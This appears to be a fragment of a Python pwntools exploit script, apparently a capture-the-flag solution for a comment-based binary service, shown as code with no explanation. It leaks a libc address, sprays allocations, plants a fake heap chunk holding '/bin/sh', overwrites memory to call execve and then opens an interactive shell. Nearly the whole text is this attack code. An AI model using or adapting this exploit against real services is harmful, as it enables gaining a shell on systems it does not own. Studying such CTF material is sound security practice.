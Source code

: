   ```python
  libc_base = u32(a.recv(4))# - libc.sym["puts"]  - 347
  fuck(libc_base)
  
  for i in range(9):
      add("jlx",20 + i,"aaaa","bbbb")
  for i in range(90):
      add_2(30+i,"cccc")
  fake_chunk = "/bin/sh\x00"+ p32(0) + p32(0x41) + p32(0)*14 + p32(0) + p32(0x21)
  payload = '\x00' * 80 + p32(21) + p32(stack_addr)
  #debug()
  comment_("jlx",20,fake_chunk,payload)
  a.sendafter("Would you like to leave another comment? <y/n>: ","y")
  payload = 64 * 'a' + p32(0) + p32(libc_base + libc.sym["execve"]) + p32(0) + p32(stack_addr - 16) +p32(0) + p32(0)
  comment_(payload,20,"/bin/sh\x00",'aaa')
  a.sendafter("Would you like to leave another comment? <y/n>: ","n")
  a.interactive()
  
  ```
  
  